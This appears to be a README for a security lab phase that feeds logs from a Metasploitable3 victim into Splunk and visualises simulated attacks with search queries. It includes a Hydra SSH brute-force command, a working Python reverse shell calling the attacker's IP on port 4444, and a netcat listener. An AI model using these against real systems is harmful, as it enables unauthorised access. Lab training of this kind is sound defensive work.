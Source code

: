 # 🛡️ Phase 2: SIEM - Dashboard Analysis

## 🎯 Objective.

- Integrate logs from the **victim machine** (Metasploitable3) into a **SIEM server** (Splunk running on the attacker/Kali VM).
- Visualize attack logs to identify patterns such as brute-force attempts and reverse shells.
- Compare the behavior and timeline of events before and after compromise.

---

## 🔧 Splunk Server Setup (Kali VM)

### Installation
```bash
wget -O splunk-9.3.2.deb https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb
sudo dpkg -i splunk-9.3.2.deb
sudo /opt/splunk/bin/splunk start --accept-license
sudo /opt/splunk/bin/splunk enable boot-start
```

### Access Web Interface
Open in browser:
```
http://192.168.142.129:8000
```
Log in with:
- **Username:** admin
- **Password:** admin123

### Enable TCP 9997 Port (to receive logs)
- Navigate to **Settings > Forwarding and Receiving > Add New (Receive Data)**
- Add TCP port **9997**
- Click **Save**

---

## 🔗 Splunk Forwarder Setup (Metasploitable3 VM)

### Installation
```bash
wget -O splunkforwarder.tgz https://download.splunk.com/products/universalforwarder/releases/9.4.1/linux/splunkforwarder-9.4.1-e3bdab203ac8-linux-amd64.tgz
tar -xvzf splunkforwarder.tgz
sudo mv splunkforwarder /opt/splunkforwarder
sudo /opt/splunkforwarder/bin/splunk start --accept-license
```

### Connect to Splunk Server
```bash
sudo /opt/splunkforwarder/bin/splunk enable boot-start
sudo /opt/splunkforwarder/bin/splunk login -auth admin:admin123
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.142.129:9997
```

### Add SSH Log Monitoring
```bash
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
sudo /opt/splunkforwarder/bin/splunk restart
```

---

## ⚔️ Attacks Performed

### 1. SSH Brute-force with Hydra
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
```

### 2. Reverse Shell via Python Script
```python
import socket,subprocess,os
s=socket.socket()
s.connect(("192.168.142.129",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

### 3. Netcat Listener on Kali
```bash
nc -lvnp 4444
```

---

## 📊 Visualization in Splunk

### Open Splunk Search:
```
http://192.168.142.129:8000/en-US/app/search/search
```

### Sample Queries:
- Failed SSH logins:
  ```spl
  index=main "Failed password"
  ```
- Successful logins:
  ```spl
  index=main "Accepted password"
  ```
- Reverse shell detection:
  ```spl
  index=main "session opened" OR "session closed"
  ```

### Bar Chart Visualization:
- Use **Visualizations > Bar Chart**
- X-Axis: `_time`, Y-Axis: `count`, Split: `event_type`

---

## 📸 Required Screenshots

- Splunk web UI showing active log forwarding from Metasploitable3
- Search results for:
  - SSH brute-force (Hydra)
  - Reverse shell events
- Visualization bar charts for the above queries
- Terminal on Kali VM showing:
  - Hydra execution
  - Netcat receiving shell
  - Python reverse shell trigger

---

## 🧠 Conclusion

- SIEM integration was completed with Metasploitable3 as victim and Splunk on Kali as server.
- Attacks were successfully simulated and visualized.
- Dashboards clearly showed timeline escalation (Hydra ➔ login ➔ shell access).
- These logs will be compared in **Phase 3** against defense mechanisms.

> Proceed to Phase 3 for defensive implementation and validation.
> 







![Screenshot17](./screenshots/Screenshot17.png)
![Screenshot18](./screenshots/Screenshot18.png)
![Screenshot19](./screenshots/Screenshot19.png)
![Screenshot20](./screenshots/Screenshot20.png)
![Screenshot21](./screenshots/Screenshot21.png)
![Screenshot22](./screenshots/Screenshot22.png)
![Screenshot23](./screenshots/Screenshot23.png)
![Screenshot24](./screenshots/Screenshot24.png)
![Screenshot25](./screenshots/Screenshot25.png)
![Screenshot26](./screenshots/Screenshot26.png)
![Screenshot27](./screenshots/Screenshot27.png)
![Screenshot28](./screenshots/Screenshot28.png)
![Screenshot29](./screenshots/Screenshot29.png)
![Screenshot30](./screenshots/Screenshot30.png)
![Screenshot31](./screenshots/Screenshot31.png)
![Screenshot32](./screenshots/Screenshot32.png)
![Screenshot33](./screenshots/Screenshot33.png)


